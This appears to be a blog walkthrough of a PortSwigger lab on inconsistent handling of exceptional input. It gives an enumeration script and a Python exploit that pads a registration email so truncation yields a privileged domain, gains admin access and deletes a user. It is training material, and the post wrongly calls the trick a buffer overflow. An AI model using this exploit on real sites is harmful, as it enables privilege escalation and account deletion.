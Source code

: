 ```yaml
--- 
title: "Inconsistent Handling of Exceptional Input"
author: ""
date: 2024-06-01T18:03:29+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0abf002f043f115b801d992a002a0035.web-security-academy.net

#### Enumeration
Access the lab, add the domain to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page, then request all embedded links via Burp proxy using the scripts below.

```python
import os
import platform
import subprocess
import sys

def check_binary(binary_name):
  if sys.platform.startswith('linux') or sys.platform.startswith('darwin'):
    command = ['which', binary_name]
  elif sys.platform.startswith('win'):
    command = ['where', binary_name]
  else:
    print("Unsupported operating system")
    return

  try:
    subprocess.check_output(command)
    return True
  except subprocess.CalledProcessError:
    print(f"{binary_name} is not installed.")
    return False

def install_binary(binary_url, binary_name):
  os_name = platform.system().lower()
  binary_file = f"{binary_name}.zip" if os_name == 'windows' else f"{binary_name}.tar.gz"
  
  # Check if binary exists
  if not check_binary(binary_name):
    # Download Binary File if not exist
    if not os.path.exists(binary_file):
      if os_name == 'linux':
        download_command = f"curl -L {binary_url}/x86_64-linux-{binary_name}.tar.gz -o {binary_file}"
      elif os_name == 'darwin':
        download_command = f"curl -L {binary_url}/x86_64-macos-{binary_name}.tar.gz -o {binary_file}"
      elif sys.platform.startswith('win'):
        download_command = f"powershell -Command 'Invoke-WebRequest {binary_url}/x86_64-windows-{binary_name}.exe.zip -OutFile {binary_file}'"
      else:
        print("Unsupported operating system")
        return

      try:
        subprocess.run(download_command, shell=True, check=True)
        print(f"{binary_name} downloaded successfully")
      except subprocess.CalledProcessError as e:
        print(f"Failed to download {binary_name}: {e}")

    # Install Binary
    if os.path.exists(binary_file):
      if os_name in ['linux', 'darwin']:
        extract_command = f"sudo tar -C /usr/local/bin/ -xzf {binary_file} {binary_name} && sudo chmod 775 /usr/local/bin/{binary_name}"
      elif sys.platform.startswith('win'):
        extract_command = f"Powershell -Command \"Expand-Archive -Path {binary_file} -DestinationPath . ; Move-Item -Path .\\{binary_name}.exe -Destination 'C:\\Windows\\'\""
      else:
        print("Unsupported operating system")
        return

      try:
        subprocess.run(extract_command, shell=True, check=True)
        print(f"{binary_name} installed successfully")
      except subprocess.CalledProcessError as e:
        print(f"Failed to install {binary_name}: {e}")

      # Clean up downloaded binary file
      try:
        cleanup_command = f"rm {binary_file}" if os_name != 'windows' else f"del {binary_file}"
        subprocess.run(cleanup_command, shell=True, check=True)
        print(f"Cleaned up {binary_file}")
      except subprocess.CalledProcessError as e:
        print(f"Failed to clean up {binary_file}: {e}")
  else:
    print(f"{binary_name} is already installed.")

def enumerate_path(endpoint, wordlist_path):
  print("Enumerating paths...")
  fuzz_command = f"feroxbuster -u {endpoint} -w {wordlist_path} -C 404 --proxy http://127.0.0.1:8080 --insecure --quiet --no-state --auto-tune"
  process = subprocess.Popen(fuzz_command.split(), stdout=subprocess.PIPE, stderr=subprocess.STDOUT, text=True)
  for line in process.stdout:
    print(line.strip())

def main():
  binary_url = "https://github.com/epi052/feroxbuster/releases/download/v2.10.2"
  binary_name = "feroxbuster"
  endpoint = "https://0abf002f043f115b801d992a002a0035.web-security-academy.net/"
  wordlist_path = "wordlist.txt"
  install_binary(binary_url, binary_name)
  enumerate_path(endpoint, wordlist_path)

if __name__ == "__main__":
  main()
```
The custom word list used for the above enumeration.
```text
accounts
admin
administrator
api
users
products
product
```

![Enumeration](/images/bizlogic6/01-enumerate-inconsistent-handling-of-exceptional-input.png "Enumeration")  

#### Exploration
Stacking BurpSuite and the Browser with FoxyProxy extension for Burp turned on, explore the application by registering an account and logging into the application. Observe that there is no email update feature. 

![Exploration](/images/bizlogic6/02-explore-inconsistent-handling-of-exceptional-input.png "Exploration") 

#### Exploitation
We can explore [buffer overflow]() to force our email to have the `@dontwannacry.com` email host after which the 'Admin Panel' tab becomes active. Click on it then delete the Carlos user. This exploit can be automated with the script below
```python
from bs4 import BeautifulSoup
from urllib.parse import urlparse
import requests
import random
import string
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

class SiteInteraction:
  def __init__(self, base_url, proxies=None):
    self.base_url = base_url
    self.session = requests.Session()
    self.session.proxies = proxies if proxies else {}

  def get_csrf_token(self, url):
    response = self.session.get(url, verify=False)
    soup = BeautifulSoup(response.content, 'html.parser')
    csrf_token = soup.find('input', {'name': 'csrf'})['value']
    return csrf_token
  
  def get_email_url(self):
    response = self.session.get(self.base_url, verify=False)
    email_client_url = BeautifulSoup(response.content, 'html.parser').find('a', {'id': 'exploit-link'}).get('href')
    return email_client_url
  
  def generate_email(self):
    emailhost = '@dontwannacry.com.' + urlparse(self.get_email_url()).hostname
    chars = 238
    email = ''.join(random.choices(string.ascii_letters + string.digits, k=chars))
    return email + emailhost

  def register(self, username, password):
    register_url = self.base_url + '/register'
    csrf_token = self.get_csrf_token(register_url)
    data = {
      'username': username,
      'email': self.generate_email(),
      'password': password,
      'csrf': csrf_token
    }
    response = self.session.post(register_url, data=data, verify=False)
    return response

  def email_activation(self):
    response = self.session.get(self.get_email_url(), verify=False)
    soup = BeautifulSoup(response.content, 'html.parser')
    activation_link = soup.find('a', href=True, string=lambda text: text and "temp-registration-token" in text)['href']
    activation_response = self.session.get(activation_link, verify=False)
    return activation_response

  def login(self, username, password):
    login_url = self.base_url + '/login'
    csrf_token = self.get_csrf_token(login_url)
    data = {
      'username': username,
      'password': password,
      'csrf': csrf_token
    }
    response = self.session.post(login_url, data=data, verify=False)
    return response

  def delete_user(self, username):
    admin_delete_url = self.base_url + f'/admin/delete?username={username}'
    response = self.session.get(admin_delete_url, verify=False)
    return response

# Example usage:
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
url = 'https://0abf002f043f115b801d992a002a0035.web-security-academy.net'
site = SiteInteraction(url, proxies=proxies)
username = 'attacker'
password = 'P@7sW0)d'

# Register a user
registration_response = site.register(username, password)
print("Registration response:", registration_response.status_code)

# Activate email
email_activation_response = site.email_activation()
print("Email activation response:", email_activation_response.status_code)

# Login
login_response = site.login(username, password)
print("Login response:", login_response.status_code)

# Delete user
delete_user_response = site.delete_user('carlos')
print("Delete user response:", delete_user_response.status_code)
```
![Exploitation](/images/bizlogic6/03-exploit-inconsistent-handling-of-exceptional-input.png "Exploitation") 

![Solution](/images/bizlogic6/04-lab-solution.png "Solution")   

#### Resources
- https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-handling-of-exceptional-input
- https://github.com/knoxknot/portswigger/tree/main/business-logic/06-inconsistent-handling-of-exceptional-input